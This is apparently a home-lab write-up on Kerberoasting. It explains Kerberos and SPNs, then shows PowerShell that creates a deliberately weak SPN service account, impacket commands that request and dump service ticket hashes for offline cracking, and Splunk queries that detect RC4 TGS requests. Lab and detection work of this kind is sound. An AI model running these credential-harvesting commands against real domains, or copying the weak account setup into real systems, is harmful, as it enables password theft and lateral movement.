

# Attack 2 - Kerberoasting

[IR-2026-002-Kerberoasting.md](https://app.notion.com/p/IR-2026-002-Kerberoasting-md-39c43e22d8188067b129fab9f36de35c?pvs=21)

### First understand kerberos

Kerberos is an authentication protocol used in an Active Directory environment

Client → You

KDC → Key Distribution Center (Works on DC)

Service → The service to you want access

### Normal Kerberos Flow

1. User Login the Domain
2. Take TGT (Ticket Granting Ticket) from KDC  (Proof that "I am this user" — like a passport)
3. When it want access to an service gives TGT to KDC (I want to access SQL Server)
4. Gives KDC → TGS ( This ticket is encrypted using the SERVICE ACCOUNT password ← critical point)
5. The user presents the TGS to the service → gains access

### Why Kerberoasting possible?

KDC encrypts the TGS ticket using the NTLM hash of the service account. And it issues this ticket to anyone who requests it — without raising any suspicion.



### What is SPN?

SPN (Service Principal Name) - an service identify on the AD

```jsx
Example SPN’S
MSSQLSvc/sqlserver.soclab.local:1433    ← SQL Server
HTTP/webserver.soclab.local             ← Web Service
```

Target for Kerberoasting: SPN-assigned accounts. 

Why? Because just SPN accounts create TGS ticket. Attacker finds SPN Accounts, wants ticker and crack offline.

## Step 1 - Create Service Account

```jsx
# Create a breakable pas service account
New-ADUser `
    -Name "SQL Service Account" `
    -SamAccountName "svc_sql" `
    -AccountPassword (ConvertTo-SecureString "Summer2024!" -AsPlainText -Force) `
    -Enabled $true `
    -Description "SQL Server Service Account" `
    -PasswordNeverExpires $true

# SPN - this makes the account a Kerberoasting target
setspn -A MSSQLSvc/dc-01.soclab.local:1433 svc_sql

# Check
Get-ADUser svc_sql -Properties ServicePrincipalNames | Select-Object SamAccountName, ServicePrincipalNames
```

Execute this command on the Powershell

## Step 2 - Kerberoasting Attack from Kali

Discovery SPN Accounts

```jsx
impacket-GetUserSPNs soclab.local/Administrator:Passw0rd123 -dc-ip 10.10.10.10
```


```jsx
impacket-GetUserSPNs soclab.local/Administrator:P@ssw0rd123! -dc-ip 10.10.10.10 -request -outputfile /tmp/kerberoast_hashes.txt
```


After the get the hash i need to crack this hash with tools.

Im used John but you can use other cracking tools.


## Step 3 - Kerberoasting Detection on the Splunk

To detect on the splunk we need to know these information

```jsx
EventCode 4769 -> Kerberos TGS Request
```

#### Splunk Queries:

Query 1 - All TGS Requests

```jsx
index=wineventlog EventCode=4769
| table _time, Account_Name, Service_Name, Client_Address, Ticket_Encryption_Type
| sort -_time
```


Query 2 - RC4 Encrypted TGS Requests

```jsx
index=wineventlog EventCode=4769 Ticket_Encryption_Type=0x17
| table _time, Account_Name, Service_Name, Client_Address
| sort -_time
```


Query 3 - Kerberoasting Summary

```jsx
index=wineventlog EventCode=4769 Ticket_Encryption_Type=0x17
| stats count by Account_Name, Service_Name, Client_Address
| sort -count
```

